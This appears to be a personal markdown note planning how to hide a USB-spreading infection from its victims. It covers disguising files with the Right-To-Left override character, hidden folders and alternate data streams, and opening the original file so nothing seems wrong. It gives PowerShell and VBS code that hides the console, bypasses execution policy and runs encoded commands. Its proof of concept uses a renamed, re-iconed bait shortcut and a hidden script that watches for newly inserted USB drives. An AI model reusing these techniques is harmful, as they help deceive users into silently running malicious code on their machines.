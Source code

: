 ```yaml
---
tags:
  - Work
  - USB
banner: "![[binary-numbers-tunnel-1080p-hd-wallpaper-wallpapers-h-w-ibackgroundz.com.jpg]]"
---
```


# Ideas to hide files

## Hide original files

To hide the infection even after openen the file the following options are given:
1. When executing the manipulated file, open the original file to avoid raising suspicion.
2. When running the manipulated file, replace itself with the original file.

Left-To-Right overwrite Unicode character: 202E


### ==Additional data Streams==

### Hidden folder
1. create a new hidden Folder
2. replace picture and name of folder with invisible ones


## Hide powershell console

https://stackoverflow.com/questions/40617800/opening-powershell-script-and-hide-command-prompt-but-not-the-gui
Hiding the console for .ps1 files when openen with gui 
```powershell
# .Net methods for hiding/showing the console in the background
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
'

function Show-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()

    # Hide = 0,
    # ShowNormal = 1,
    # ShowMinimized = 2,
    # ShowMaximized = 3,
    # Maximize = 3,
    # ShowNormalNoActivate = 4,
    # Show = 5,
    # Minimize = 6,
    # ShowMinNoActivate = 7,
    # ShowNoActivate = 8,
    # Restore = 9,
    # ShowDefault = 10,
    # ForceMinimized = 11

    [Console.Window]::ShowWindow($consolePtr, 4)
}

function Hide-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()
    #0 hide
    [Console.Window]::ShowWindow($consolePtr, 0)
}
```

To hide the console with this code, all you need to do is call `Hide-Console`. Since you already have code in the `Shown` event (`$objForm.Add_Shown`) we can simply add another line to call the command:
```powershell
$objForm.Add_Shown({
    $objForm.Activate()
    Hide-Console
})
```

---

https://stackoverflow.com/questions/1802127/how-to-run-a-powershell-script-without-displaying-a-window
I add this code in the beginning of all my PowerShell scripts that I need to run in background.
```powershell
# .Net methods for hiding/showing the console in the background
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
'
function Hide-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()
    #0 hide
    [Console.Window]::ShowWindow($consolePtr, 0)
}
Hide-Console
```

---

Create a shortcut that calls the PowerShell script and set the Run option to Minimized. This will prevent a window from flashing although you will still get a momentary blip of the script running on the Task Bar.

---

Make a vbs script to run a hidden batch file which launches the powershell script. Seems silly to make 3 files for this task but atleast the total size is less than 2KB and it runs perfect from tasker or manually (you dont see anything).

**scriptName.vbs**

```vbs
Set WinScriptHost = CreateObject("WScript.Shell")
WinScriptHost.Run Chr(34) & "C:\Users\leathan\Documents\scriptName.bat" & Chr(34), 0
Set WinScriptHost = Nothing
```

**scriptName.bat**

```batch
powershell.exe -ExecutionPolicy Bypass C:\Users\leathan\Documents\scriptName.ps1
```

**scriptName.ps1**

```powershell
Your magical code here.
```

---

A single vbs file solution. You first have to convert your ps script to base64 string, place it in a variable in the template shown below and save it as I vbs file. Runs without powershell coming up.

```vbs
dim EncodedCommand
EncodedCommand = "COMMAND"

pSCmd = "powershell.exe -noexit -windowstyle Hidden -executionpolicy bypass -encodedcommand " & EncodedCommand

CreateObject("WScript.Shell").Run pSCmd, 0, True
```
---

# PoC

The Script can be executed through a shortcut with the following options:
```
powershell.exe -executionpolicy bypass -noexit -windowstyle hidden
```

Additionally should the run option be set to Minimized and the Icon and Name has to be changed.

If a folder is supposed to be the "bait", the folder needs to be hidden and the name copied.

This needs to be added at the end of the command:
```
explorer.exe .\<<folder>>
```
This opens a new explorer window with the open folder. 

The script to start a sub process that listenes to newly inserted USB devices:
```powershell
# .Net methods for hiding/showing the console in the background
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
'
function Hide-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()
    #0 hide
    [Console.Window]::ShowWindow($consolePtr, 0)
}
Hide-Console
$Script = @'
    $Devices = Get-PnpDevice -PresentOnly | Where-Object { $_.InstanceId -match '^USB' }
    $DeviceCount= $Devices.Count
    while ($Devices.Count -le $DeviceCount) {
        Write-Host "Waiting for USB devices to be connected..."
        $Devices = Get-PnpDevice -PresentOnly | Where-Object { $_.InstanceId -match '^USB' }
        Start-Sleep -Seconds 0.1
    }
    Stop-Process -ID $PID
'@

Remove-Item -Path "C:\Users\Public\Documents\test.ps1" -Force
New-Item -Path "C:\Users\Public\Documents\test.ps1" -ItemType "file" -Value $Script
Start-Process powershell.exe -ArgumentList "-noexit", "C:\Users\Public\Documents\test.ps1" #-WindowStyle Hidden 
```
